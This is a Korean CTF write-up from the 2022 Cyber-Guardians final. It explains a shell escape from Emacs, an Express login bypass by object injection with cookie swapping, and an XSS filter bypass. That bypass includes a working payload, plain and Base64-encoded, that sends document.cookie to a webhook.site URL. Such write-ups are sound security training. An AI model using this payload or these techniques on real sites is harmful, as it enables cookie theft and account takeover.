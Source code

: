 # 2022 Cyber-Guardians CTF Final

## Dreamhack Profile
School: 덕영고등학교

Team: Asseertive

## Solve list
A - Sanity Check Revenge (@suk-6)

D - xss-1.3 (@suk-6)

E - CProxy: Inject (@fixca)

K - Simple Factor (@suk-6)

M - xss-1.5 (@suk-6)

### Sanity Check Revenge
문제 ssh에 접속하면 GNU Emacs 편집기가 나온다.

ESC + !로 Shell Command 입력창을 불러와서 루트 폴더의 flag 파일을 읽는다.

### xss-1.3
xss-1.3은 문제에서 말하고 있듯 xss 문제이다.

`'`, `"`, `=`를 필터링하고 있다.

필터링을 우회하기 위해 Base64 인코딩으로 해결하였다.

```
<svg/onload=location.href=`https://webhook.site/webhook-id?flag=`.concat(document.cookie)>

to base64(URL-safe) + JS Decoding Code

<script>document.write(atob(`PHN2Zy9vbmxvYWQ9bG9jYXRpb24uaHJlZj1gaHR0cHM6Ly93ZWJob29rLnNpdGUvd2ViaG9vay1pZD9mbGFnPWAuY29uY2F0KGRvY3VtZW50LmNvb2tpZSk-`))</script>
```

### CProxy: Inject
#### 1. admin_inject 로 로그인 해보자!
허나 이 작업은 좀 어려웠어요.   
왜냐하면 preparedstatement 기법이어서 "나 ' or 1 = 1 같은 sqli가 먹히기 힘든 구조였어요.   
하지만 preparedstatement 에서도 먹히는 SQLi 가 있다는 것을   
https://core-research-team.github.io/2020-10-01/Expressjs
이 글에서 알게 되었어요.   
즉 pw 안에 다른 object를 넣는 방법을 알게되었고 그 방법은 다음과 같습니다.   
![pwinject](./img/pwinject.png)
이제 여기서 얻은 connect sid를 브라우저로 옮겨주는 작업을 했어요.   
미리 아무계정으로 로그인 해둔 페이지에서 쿠키를 슬쩍 바꿔주면 admin_inject 계정으로 속이기 성공!   
![change_cookie](./img/change_cookie.png)

#### 2. 플래그를 따보자!
플래그의 위치는 response 테이블에 있었어요.   
db.js 파일에서 response 테이블에 있는 데이터를 불러올 수 있는 함수가 있었고, 그 함수는 /api/history 엔드포인트에 있다는것을 알게 되었어요.
![dbjsresponse](./img/dbjsresponse.png)   
그리고 이 함수는 여기있는 엔드포인트에서 실행되었어요.
![history_endpoint](./img/history_endpoint.png)   
이거 실행 시키면 되겠지 하고 실행했더니
![get_faked](./img/get_faked.png)
아이고 맙소사 플래그가 안나오는 함수를 실행 시켰어요.   
하지만 response 테이블을 참조해서 데이터를 불러오는 엔드포인트랑 함수는 하나 더 있었어요.   
![actual_function](./img/actual_function.png)
![actual_endpoint](./img/actual_endpoint.png)
그럼 /api/history/ 뒤에 rid의 값을 입력하면 그 특정 데이터를 전부 불러올 수 있으니 실행했고,   
결과는 다음과 같았어요.   
![success_flag](./img/success_flag.png)

### Simple Factor

### xss-1.5